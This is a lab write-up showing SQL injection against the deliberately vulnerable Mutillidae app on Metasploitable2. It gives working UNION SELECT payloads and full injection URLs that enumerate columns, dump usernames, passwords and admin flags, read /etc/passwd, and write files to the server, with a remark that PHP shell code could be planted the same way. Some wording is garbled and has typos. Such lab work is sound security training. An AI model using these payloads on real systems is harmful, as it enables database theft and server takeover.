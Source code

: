 When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.

![244885902-c820f87a-30cb-485b-b423-f6fd0e67c96e](https://github.com/user-attachments/assets/74b6e9df-1e69-4d95-90e1-1694db7f5fbe)

The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details

![244885902-c820f87a-30cb-485b-b423-f6fd0e67c96e](https://github.com/user-attachments/assets/a0581171-e4e5-46ee-84ea-1a1d6410733e)

Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details

![244885903-f7dd79fb-c11c-41f3-8019-06685e9cd759](https://github.com/user-attachments/assets/f3fc6630-f371-45cc-a7f8-8cb78a436155)

## Reading and writing files on the web-server

We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details

![244885909-13f4a113-06fc-4d62-a8ec-6525c4ec1343](https://github.com/user-attachments/assets/84c15fba-e4fe-413c-a282-ba6c3ec00655)

the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server. Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).

## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
